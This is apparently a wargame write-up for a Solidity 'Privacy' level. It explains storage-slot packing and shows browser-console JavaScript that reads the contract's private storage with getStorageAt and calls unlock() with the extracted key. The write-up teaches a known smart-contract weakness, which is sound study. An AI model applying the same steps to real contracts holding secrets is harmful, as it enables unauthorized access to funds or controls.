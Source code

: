 # **Level 12 — Privacy**

## 🎯 Goal  
Unlock the contract — that is, make the locked variable equal to false.

## 💥 Vulnerability  
In a previous level, we learned that any storage variable can be read externally, even if it's marked private, using `web3.eth.getStorageAt`.
In this contract, we also need to consider Solidity’s storage optimization rules:
**small variables (like uint8, bool, uint16) that appear sequentially will be packed into a single storage slot (up to 32 bytes), instead of being stored separately.**
This optimization saves gas, but developers can forget about it — and that opens the door for an attacker.

The part of the vulnerable code:
```solidity 
// Solidity code 
function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }
```

## 🛠 ️Solution (via browser console)
The following steps were executed:
```js
// JS console input 
// 0. Check the current value of locked - true
(await contract.locked()).toString()

// 1. Check the current value of ID - 1752088932 (hex: 0x686ec164)
(await contract.ID()).toString()

// 2. Sequentially checking values in storage slots - from 0 to 7

await web3.eth.getStorageAt( instance_address, 0) 
// 0x0000000000000000000000000000000000000000000000000000000000000001 -> bool locked = true (1 byte --> 01)

await web3.eth.getStorageAt( instance_address, 1)
// 0x00000000000000000000000000000000000000000000000000000000686ec164 -> uint256 ID = block.timestamp

await web3.eth.getStorageAt( instance_address, 2)
// 0x00000000000000000000000000000000000000000000000000000000c164ff0a -> combination of small variables 
// uint8 flattening = 10 (1 byte --> 0a) + uint8 denomination = 255 (1 byte --> ff) + uint16 awkwardness (2 bytes --> c164)

// Extracting slots of bytes32[3] data --> 32 bytes = 256 bites = 64 hex-symbols
await web3.eth.getStorageAt( instance_address, 3)
// 0x320b7a6767c698f87d557157682215ef42d77cac78ea82a4518167878b8b72f6 - data[0] (bytes32)
await web3.eth.getStorageAt( instance_address, 4)
// 0x6b58d934e89de68e68d7e32d69bddeb6fbb3aaba12500e75bbb34d508d46004e - data[1] (bytes32)
await web3.eth.getStorageAt( instance_address, 5)
// 0x6a3202dd914b17af1382cdf5843a57cf0cd41ea62e5bfd918eb5a30e3eac13da - data[2] (bytes32)

await web3.eth.getStorageAt( instance_address, 6)
// 0x0000000000000000000000000000000000000000000000000000000000000000 - empty slot
await web3.eth.getStorageAt( instance_address, 7)
// 0x0000000000000000000000000000000000000000000000000000000000000000 - empty slot
await web3.eth.getStorageAt( instance_address, 8)
// 0x0000000000000000000000000000000000000000000000000000000000000000 - empty slot

// 3. Call unlock() function with bytes16(data[2])
contract.unlock("0x6a3202dd914b17af1382cdf5843a57cf")

// 4. Recheck the value of locked - false
(await contract.locked()).toString()
```

## 🧙 Outcome
The contract was successfully unlocked.
The rule about variable packing and storage layout in Solidity has been fully understood and mastered.

